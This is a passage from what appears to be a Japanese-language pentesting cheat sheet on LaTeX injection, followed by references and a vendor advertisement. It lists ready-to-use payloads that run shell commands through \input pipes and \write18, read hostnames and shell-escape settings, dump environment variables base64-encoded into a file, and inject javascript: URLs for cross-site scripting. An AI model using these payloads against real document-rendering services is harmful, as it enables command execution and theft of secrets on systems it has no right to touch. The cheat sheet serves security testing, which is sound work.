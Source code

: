 ```bash
\input{|"bibtex8 --version > /tmp/b.tex"}
## Search the file pdfetex.ini
\input{|"kpsewhich pdfetex.ini > /tmp/b.tex"}
## Get env var value
\input{|"kpsewhich -expand-var=$HOSTNAME > /tmp/b.tex"}
## Get the value of shell_escape_commands without needing to read pdfetex.ini
\input{|"kpsewhich --var-value=shell_escape_commands > /tmp/b.tex"}
```
もしLaTexのエラーが発生した場合は、ベース64を使用して悪意のある文字を含まない結果を得ることを検討してください。
```bash
\immediate\write18{env | base64 > test.tex}
\input{text.tex}
```

```bash
\input|ls|base4
\input{|"/bin/hostname"}
```
### クロスサイトスクリプティング <a href="#cross-site-scripting" id="cross-site-scripting"></a>

[@EdOverflow](https://twitter.com/intigriti/status/1101509684614320130)からの情報です。
```bash
\url{javascript:alert(1)}
\href{javascript:alert(1)}{placeholder}
```
## 参考文献

* [https://notsosecure.com/data-exfiltration-formula-injection-part1](https://notsosecure.com/data-exfiltration-formula-injection-part1)
* [https://0day.work/hacking-with-latex/](https://0day.work/hacking-with-latex/)
* [https://salmonsec.com/cheatsheet/latex\_injection](https://salmonsec.com/cheatsheet/latex\_injection)
* [https://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/](https://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/)

<figure><img src="/.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

最も重要な脆弱性を見つけて、より速く修正できるようにしましょう。Intruderは、攻撃対象を追跡し、積極的な脅威スキャンを実行し、APIからWebアプリまで、クラウドシステム全体にわたる問題を見つけます。[**無料でお試しください**](https://www.intruder.io/?utm\_source=referral\&utm\_campaign=hacktricks)。

{% embed url="https://www.intruder.io/?utm\_campaign=hacktricks&utm\_source=referral" %}
